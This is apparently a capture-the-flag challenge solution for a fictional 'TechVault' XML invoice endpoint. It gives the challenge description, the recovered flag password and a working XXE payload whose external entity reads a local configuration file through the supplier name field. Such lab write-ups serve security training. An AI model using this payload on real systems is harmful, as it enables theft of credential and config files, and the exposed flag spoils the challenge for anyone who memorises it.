 Challenge: TechVault Invoice System

Difficulty: Medium
Description

TechVault Solutions operates a B2B invoice processing platform that accepts XML-based invoices from registered suppliers. The system validates supplier information and generates approval tokens.

During a security audit, suspicious file access patterns were detected. Investigate the invoice submission endpoint and exploit any vulnerabilities to retrieve the database password from the internal configuration file.

Challenge url: 

BOunty: P@ssw0rd_2025_Secure!
xml payload:

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE invoice [
  <!ENTITY xxe SYSTEM "file:///tmp/techvault/config/api_keys.xml">
]>
<invoice>
    <invoiceId>INV-XXE-EXPLOIT</invoiceId>
    <supplier>
        <name>&xxe;</name>
        <vendorCode>EXPLOIT-001</vendorCode>
    </supplier>
    <items>
        <item>
            <description>XXE Attack</description>
            <amount>0.00</amount>
            <currency>USD</currency>
        </item>
    </items>
    <total>0.00</total>
</invoice>
